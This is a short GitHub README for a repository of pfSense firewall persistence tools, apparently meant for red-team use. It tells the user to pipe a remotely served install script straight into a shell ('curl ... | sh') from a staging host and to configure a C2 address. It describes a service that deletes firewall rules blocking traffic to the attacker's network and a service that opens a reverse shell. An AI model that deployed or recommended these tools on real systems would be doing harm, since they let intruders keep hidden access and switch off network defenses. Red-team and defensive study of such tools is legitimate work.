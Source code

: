 # pfSensePersistence
A collection of pfsense persistence tools

## Install
Run install.sh to install Breakout and Service Shell. Set staging IP(machine serving files) and C2 IP(server to connect back to). Assumed to be serving files with ```python -m http.server```
Recommend to pipe directly to shell, ie ```curl -s <IP>:8000/install.sh | sh```

## Breakout
Service that will check if it can connect back to the listener periodically. If it can't, it will delete any filter rules blocking traffic to the red team network

## Service Shell
Basic service to make a reverse shell